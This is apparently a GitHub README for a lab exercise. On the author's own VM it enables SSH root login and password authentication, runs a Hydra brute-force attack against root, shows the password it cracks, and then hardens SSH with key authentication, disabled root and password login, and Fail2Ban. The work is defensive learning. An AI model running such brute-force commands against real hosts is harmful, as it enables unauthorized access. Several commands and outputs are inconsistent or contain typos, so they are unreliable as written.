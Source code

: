 # POC-TASK--2
✅ SETUP:

step 1: Enable ssh 
        
  # Update package list and install OpenSSH server
        ┌──(monish㉿vbox)-[~]
        └─$ sudo apt update && sudo apt install openssh-server -y

  # Enable ssh to start on boot
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl enable ssh

  # Verify ssh is running
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl status ssh

step 2: Allow Root login & Password Authentication
  
  # Allow root login
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/#permitRootLogin prohibit-password/permitRootLogin yes/' /etc/ssh/sshd_config

  # Enable password-based authentication
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/passwordaAuthentication no/passwordAuthentication yes/' /etc/ssh/sshd_config

  # Verify ssh is listening on port 
        ┌──(monish㉿vbox)-[~]
        └─$ ss -tlnp | grep ssh
        
✅ EXPLOIT: BRUTE-FORCE ATTACK:

step 3: perform a brute-force attack on ssh

  # Run Hydra brute-force attack on ssh
        ┌──(monish㉿vbox)-[~]
        └─$ hydra -l root -p passwords.txt ssh://10.0.2.15 -t 4

  Hydra (https://github.com/van-thc/thc-hydra) starting at 2025-03-17 20:40:6
  [DATA] max 4 tasks per 1 server, overall 4 tasks, 5 login tries (l:1/p:5), ~2 tries per task
  [DATA] attacking ssh://10.0.2.15/
  [22][ssh] host: 178.0.0.9   login: root   password: @@@@
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/van-thc/thc-hydra) finished at 2025-03-17 20:40:9

✅ MITIGATION:

 step 4: ssh hardening & mitigation

   # Disable root login for ssh
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config

   # Enable key-based authentication
        ┌──(monish㉿vbox)-[~]
        └─$ mkdir -p ~/.ssh && chmod 700 ~/.ssh

   # Generate ssh key pair
        ┌──(monish㉿vbox)-[~]
        └─$ ssh-keygen -t rsa -b 4096

   Generating public/private rsa key pair.
   Enter file in which to save the key (/home/monish/.ssh/id_rsa): 
   Enter passphrase for "/home/monish/.ssh/id_rsa" (empty for no passphrase): 
   Enter same passphrase again: 
   Your identification has been saved in /home/monish/.ssh/id_rs
   Your public key has been saved in /home/monish/.ssh/id_rsa.pub
   The key fingerprint is:
   SHA256:*********************************** 
   The key's randomart image is:
   
   +---[RSA 4096]----+
   
   |  .=o+*+=B*= .   |
   
   |  ..O=.+*B=.o    |
   
   |   =.oo .E=  .   |
   
   |    .  ..o. . .  |
   
   |        S  . + . |
   
   |            = ...|
   
   |           o oo o|
   
   |            . .+ |
   
   |             ..  |
   
   +----[SHA256]-----+

   # Disable password authentication 
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config

   # Reset ssh to apply changes
        ┌──(monish㉿vbox)-[~]
        └─$  sudo systemctl restart ssh

step 5: Prevent Brute-force Attacks with Fail2Ban

   # Install Fail2Ban
        ┌──(monish㉿vbox)-[~]
        └─$ sudo apt install -y fail2ban

   # Enable and start Fail2Ban
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl enable fail2ban
        sudo systemctl start fail2ban

   # Configure Fail2Ban for ssh protection
        ┌──(monish㉿vbox)-[~]
        └─$ sudo nano /etc/fail2ban/jail.local

   # Restart Fail2Ban to apply settings
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl restart fail2ban
   
   # Check Fail2Ban status for SSH
         ┌──(monish㉿vbox)-[~]
         └─$ sudo fail2ban-client status sshd

   # Login in Root
          ┌──(monish㉿vbox)-[~]
          └─$ ssh root@178.0.0.9
